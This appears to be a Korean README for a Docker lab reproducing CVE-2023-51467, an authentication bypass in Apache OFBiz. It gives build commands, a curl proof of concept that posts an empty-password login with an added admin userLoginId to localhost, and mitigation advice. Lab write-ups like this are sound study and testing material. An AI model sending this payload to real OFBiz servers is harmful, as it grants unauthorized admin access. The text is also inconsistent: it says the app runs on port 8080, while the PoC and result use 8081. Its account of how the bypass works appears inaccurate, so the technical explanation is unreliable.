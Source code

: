 # CVE-2023-51467 - Apache OFBiz 인증 우회 취약점

## 요약
- CVE-2023-51467은 Apache OFBiz 18.12.06 이하 버전에서 발견된 인증 우회 취약점입니다.
- 로그인 처리 과정에서 사용자 입력 검증이 미흡하여, 공격자가 `userLoginId` 파라미터를 조작해 인증 없이 관리자 권한을 획득할 수 있습니다.
- 이로 인해 인증 없이 관리자 페이지에 접근할 수 있습니다.

---

## 환경 구성 및 실행

1. Dockerfile과 docker-compose.yaml 파일을 준비합니다.
2. 터미널에서 해당 디렉토리로 이동하여 다음 명령어를 실행합니다.

```bash
docker-compose build
docker-compose up -d
```
(Dockerfile 빌드 과정 중 Apache OFBiz 소스 코드를 Gradle로 컴파일하는 단계가 포함되어 있어, 최초 빌드 시 시간이 다소 소요되었습니다. 이후 캐시를 활용하여 재실행 속도는 향상됩니다.)

3. 브라우저를 통해 ```bash http://localhost:8080``` 접속

## PoC 
취약한 로그인 처리 과정을 우회하기 위해 아래와 같은 요청을 보냅니다.

```bash
curl -v -d "USERNAME=admin&PASSWORD=&JavaScriptEnabled=Y&userLoginId=admin" http://localhost:8081/control/login
```

공격 흐름 설명
- USERNAME=admin으로 로그인 시도
- PASSWORD= 로 비워둬서 비밀번호 없이 요청
- userLoginId = admin 추가하여 세션에 직접 관리자 계정을 주입
- 서버가 정상 인증 체크 없이 로그인 세션 생성

## 결과
- 정상적으로 curl 요청을 보내면 302 Redirect 응답과 함께 세션이 생성됩니다
- 이후 브라우저로 ```bash http://localhost:8081 ``` 접속 시 관리자 권한으로 접근 가능해집니다
![docker-compose up --build 실행화면](photo1.png)

## 정리
해당 취약점을 통해 공격자는 관리자로 로그인하여 인가되지 않은 권한을 획득할 수 있다. 

이러한 상황을 방지하기 위해, 로그인 처리 로직에서는 입력값에 대해 철저한 검증을 수행하고, 세션 생성 시 사용자 인증 절차를 반드시 통과하도록 서버 측에서 강제해야 한다. 또한, 최신 보안 패치가 적용된 소프트웨어 버전으로 시스템을 주기적으로 업데이트하는 것이 중요하다.